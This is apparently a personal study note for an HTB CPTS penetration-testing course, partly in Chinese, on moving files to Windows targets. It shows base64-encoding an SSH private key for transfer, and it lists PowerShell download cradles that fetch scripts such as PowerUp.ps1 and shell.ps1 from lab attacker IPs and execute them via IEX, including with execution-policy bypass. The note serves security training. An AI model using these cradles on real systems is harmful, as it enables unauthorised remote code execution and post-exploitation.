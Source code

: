 ```yaml
---
tags:
  - 渗透/利用
  - IT/Windows
  - 渗透/CPTS
  - 渗透/后渗透
---
```



> Let's use the [Microsoft Astaroth Attack](https://www.microsoft.com/security/blog/2019/07/08/dismantling-a-fileless-campaign-microsoft-defender-atp-next-gen-protection-exposes-astaroth-attack/) blog post as an example of an advanced persistent threat (APT).

## Download

### PowerShell Base64 Encode & Decode

当想将文件传到远程host但是无法用网络传输时，可简单地用base64字符串进行转换。
重点是确认是否完好传输。
```shell-session
TimeLess613@htb[/htb]$ md5sum id_rsa
4e301756a07ded0a2dd6953abf015278  id_rsa

TimeLess613@htb[/htb]$ cat id_rsa |base64 -w 0;echo (或 base64 id_rsa -w 0)

PS C:\htb> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("<base64-strings>"))


PS C:\htb> Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
Algorithm       Hash                                                                   Path
---------       ----                                ----
MD5             4E301756A07DED0A2DD6953ABF015278    C:\Users\Public\id_rsa
```

- `-w 0`：宽度无限，指示输出的base64字符串不进行换行。即输出为1行。

> [!NOTE] Note: While this method is convenient, it's not always possible to use. Windows Command Line utility (cmd.exe) has a maximum string length of 8,191 characters. Also, a web shell may error if you attempt to send extremely large strings.



### PowerShell Web Downloads


**下载脚本、字符串** ^368d24

> [Download Cradles](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)

```powershell
# IEX几种写法
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/ipw.ps1')"
powershell IEX (New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/ipw.ps1')
## 还可以pipe
(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/ipw.ps1') | IEX

#From cmd
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.13:8000/PowerUp.ps1') | powershell -noprofile - 
#From PSv3
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.2.0.5/shell.ps1')|iex"
iex (iwr '10.10.14.9:8000/ipw.ps1') 

```